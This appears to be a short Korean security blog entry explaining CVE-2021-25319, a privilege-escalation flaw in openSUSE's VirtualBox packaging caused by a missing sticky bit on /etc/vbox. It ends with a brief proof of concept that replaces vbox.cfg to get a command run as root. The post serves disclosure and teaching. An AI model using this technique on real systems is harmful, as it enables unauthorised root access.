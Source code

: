 ```yaml
---
title: "[하루한줄] CVE-2021-25319: VirtualBox의 권한상승 취약점"
author: L0ch
tags: [L0ch, lpe, virtualbox, cve, oracle]
categories: [1day1line]
date: 2021-04-30 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[virtualbox: CVE-2021-25319: missing sticky bit in openSUSE packaging for /etc/box allows local root exploit for members of vboxusers group ](https://seclists.org/oss-sec/2021/q2/78)

## Target

- VirtualBox for openSUSE

## Explain
oracle사의 오픈소스 가상 머신 소프트웨어인 VirtualBox openSUSE 패키지 배포판에서 특정 계정 그룹의 유저가 root로 권한 상승이 가능한 취약점이 발견되었습니다.

`vboxusers` group은 VirtualBox 자동시작을 위해 도입되었으며 VirtualBox의 여러 구성 파일이 포함된  `/etc/vbox` 디렉터리에 쓰기 권한이 부여된 유저 그룹입니다. 그러나 `/etc/vbox` 디렉터리에 sticky bit 설정이 누락되어 있어 `vboxusers`에 속한 모든 유저가 해당 디렉터리의 파일을 임의로 수정할 수 있습니다.

> sticky bit가 설정된 디렉터리에는 누구나 파일을 생성할 수 있지만 삭제 및 수정은 생성한 유저와 root만 가능합니다.

위 취약점을 악용하면  `vboxautostart.sh`, `vboxdrv.sh`및 `vboxweb-service.sh`와 같이 root 권한의 VirtualBox bash script에서 사용되는 `/etc/vbox/vbox.cfg` 파일을 수정할 수 있어 root 권한으로 현재 작업 디렉터리(CWD) 내의 제한된 명령 및 파일 실행이 가능합니다. PoC는 설명과 함께 아래에서 확인할 수 있습니다.

```cpp
//vboxusers 그룹 nobody 생성
root# su -g vboxusers nobody
nobody$ cd /etc/vbox
nobody$ cp vbox.cfg vbox.cfg.new
// nobody에서 기존 vbox.cfg 삭제후 임의 명령이 포함된 vbox.cfg로 대체
nobody$ rm -f vbox.cfg
nobody$ mv vbox.cfg.new vbox.cfg
nobody$ echo "touch /root/evil" >>vbox.cfg
nobody$ exit
// vboxautostart 스크립트가 실행되면 트리거
root# systemctl start vboxautostart.service
root# ls -lh /root/evil
-rw-r--r-- 1 root root 0  2. Mär 12:14 /root/evil
```